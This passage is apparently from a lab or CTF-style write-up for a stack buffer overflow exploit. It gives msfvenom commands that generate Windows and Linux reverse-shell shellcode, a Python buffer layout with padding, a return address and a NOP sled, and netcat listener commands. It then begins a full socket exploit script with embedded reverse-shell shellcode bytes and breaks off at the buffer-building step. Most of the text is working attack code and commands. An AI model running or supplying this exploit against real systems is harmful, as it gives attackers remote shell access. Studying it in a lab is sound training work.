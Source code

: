 - Generate shellcode (reverse shell, bind shell, etc.) with `msfvenom`:

```
msfvenom -p windows/shell_reverse_tcp LHOST=<YOUR_IP> LPORT=4444 EXITFUNC=thread -b "\x00" -f python
```

Update your script:

```python
padding = b"A" * 524
eip = b"\xf3\x12\x17\x31"
nop_sled = b"\x90" * 16
payload = <your generated shellcode>

buffer = padding + eip + nop_sled + payload
```

### **Test Locally**

- Run the Python exploit while the target is on your Windows VM.
- Start a `nc -lvnp 4444` listener.
- Verify that a reverse shell is received.


### **Exploit the Actual Linux Target**

- Replace the payload with one for Linux (since the remote app runs on a Linux machine):

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=IP LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"
```

- Use the same structure in the script (adjust the shellcode only).
- Run a netcat listener again:

```
nc -lvnp 4444
```

- Send the exploit and you'll get a shell


## Exploit
---

Knowing the steps we need to reproduce in order to get a shell, we can use the following exploit after we've followed everything:

```python
#!/usr/bin/python
import sys
import socket
from time import sleep

# ─── 1. YOUR SHELLCODE INSERTED HERE ─────────────────────────────────────────────
# Your msfvenom shellcode goes here as a bytes literal, generate with: 
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=IP LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"

payload = (
    b"\xba\x4c\x84\x2a\x2a\xdb\xde\xd9\x74\x24\xf4\x5e\x2b\xc9"
    b"\xb1\x12\x83\xee\xfc\x31\x56\x0e\x03\x1a\x8a\xc8\xdf\x93"
    b"\x49\xfb\xc3\x80\x2e\x57\x6e\x24\x38\xb6\xde\x4e\xf7\xb9"
    b"\x8c\xd7\xb7\x85\x7f\x67\xfe\x80\x86\x0f\x0b\x7d\x6c\xd3"
    b"\x63\x83\x8e\xfa\x2f\x0a\x6f\x4c\xa9\x5c\x21\xff\x85\x5e"
    b"\x48\x1e\x24\xe0\x18\x88\xd9\xce\xef\x20\x4e\x3e\x3f\xd2"
    b"\xe7\xc9\xdc\x40\xab\x40\xc3\xd4\x40\x9e\x84"
)

# ─── 2. BUILD THE BUFFER ───────────────────────────────────────────────────────
```